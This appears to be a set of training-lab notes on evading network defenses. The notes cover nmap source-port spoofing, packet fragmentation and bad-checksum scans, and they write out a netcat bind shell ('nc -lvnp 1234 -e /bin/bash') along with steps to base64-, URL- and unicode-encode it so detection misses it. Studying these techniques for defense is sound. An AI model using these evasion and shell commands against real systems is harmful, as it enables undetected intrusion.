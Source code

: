 ### Tools: nmap, netcat/socat

# EVASION VIA PROTOCOL MANIPULATION

### 1) Relying on a different protocol

### 2) Manipulating (source) TCP/UDP Port

### 3) Using session splicing (IP Packet fragmentation)

### 4) Sending invalid packets

## 1st technique example

#### 1) nc -lvnp 25 (Gives the imp[ression that it is a usual TCP connection with an SMTP server)

#### Counter: Deep Packet Inspection (DPI)

#### 2) nc -ulvnp 162 (UDP Connection)

#### Counter: DPI

# 2nd Technique example

#### 1) nmap -sS -Pn -g 80 -F TARGET_IP (HTTP Server spoof)

#### 2) nmap -sU -Pn -g 53 -F TARGET_IP (DNS Server spoof)

#### 3) Can be used with netcat as well

# 3rd Technique example

### nmap options: 

#### -f = Set the data in IP packet to 8 bytes

#### -ff = To limit the data in the IP packet to 16 bytes at most

#### --mtu SIZE = Custom data size (Multiple of 8)

# 4th Technique example

### nmap options:

#### --badsum

#### --scanflags: URG ACK PSH RST SYN FIN (Custom TCP flag combinations)

# EVASION VIA PAYLOAD MANIPULATION

### 1) Obfuscating and encoding the payload

### 2) Encrypting the communication channel

### 3) Modifying the shellcode

# 1st Technique example

### 1) Encode to Base64 format

#### 1: cat input.txt

#### 2: nc -lvnp 1234 -e /bin/bash

#### 3: base64 input.txt

### 2) URL Encoding

#### urlencode nc -lvnp 1234 -e /bin/bash

### 3) Escaped Unicode

### Tool: Cyberchef

#### 1) Search "Escape Unicode Characters"

#### 2) Drag to recipe

#### 3) Checkmark "encode all chars with a prefix of \u"

#### 4) Checkmark "Uppercase hex with a padding of 4"


